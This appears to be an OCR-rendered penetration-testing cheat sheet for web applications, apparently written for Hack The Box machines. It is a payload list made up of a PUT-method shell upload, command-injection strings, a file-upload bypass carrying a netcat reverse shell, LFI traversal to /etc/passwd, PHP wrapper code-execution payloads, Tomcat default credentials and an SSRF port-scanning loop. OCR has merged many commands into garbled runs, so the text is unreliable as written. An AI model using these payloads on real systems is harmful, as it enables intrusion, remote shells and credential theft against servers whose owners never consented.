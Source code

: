# **Web Application**

Checking HTTP Methods

```
curl -i -X OPTIONS http://XXXXnmap --script http-methods --script-args http-methods.url-path='/test' $ipCurl usagecurl -X POST http://internal-01.bart.htb/simple_chat/register.php -d "uname=0xdf&passwd=password"
```

Shell via Put Method

```
Put Shellcurl -X PUT -T "/path/to/file" "http://myputserver.com/puturl.tmp"curl -X MOVE --header  "Destination:http://ip/asp.asp" "http://ip/asp.txt"
```

RFI

```
$ fimap -u "http://$ip/example.php?test="$ https://github.com/lightos/Panoptic/
```

JBOSS

```
JMX Console http://$ip:8080/jmxconcole/​
```

Tomcat Manager Default Credentials

```
Tomcat manager, try default credentials: tomcat/tomcat, admin/manager, admin/password, admin/s3cret, admin (emtpy password).​
```

Command Injection

```
Command injection`id`| id&& iderror || id%0a id
```

File upload bypass

```
content-type:image/gifGIF89a ?ippsec=nc -e /bin/sh ip port
```

SQL Shell

```
msql -u root -p\! /bin/sh
```

LFI

```
 Linux../../../../../../../../../../etc/passwd..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd../../../../../../../../../../etc/passwd%00..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd%2500​Windows../../../../../../../../../../boot.ini..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fboot.ini../../../../../../../../../../boot.ini%00..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fboot.ini%2500Wordlists/usr/share/wordlists/SecLists/Fuzzing/JHADDIX_LFI.txt
```

LFI Wrappers

```
LFI Wrappersexpect://http://x.x.x.x/blah?parameter=expect://whoamidata://http://x.x.x.x/blah?parameter=data://text/plain;base64,PD8gcGhwaW5mbygpOyA/Pg==# the base64 encoded payload is: input://http://x.x.x.x/blah?parameter=php://input# POST data (using Hackbar)
```

LFI to RCE

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20inclusion#wrapper-data​
```

SSRF

```
for i in $(seq 1 60000); do echo $i; curl -X GET http://ip:60000/url.php?path=http://localhost:$i/ 2> /dev/null | tr -d “\n”; done​
```
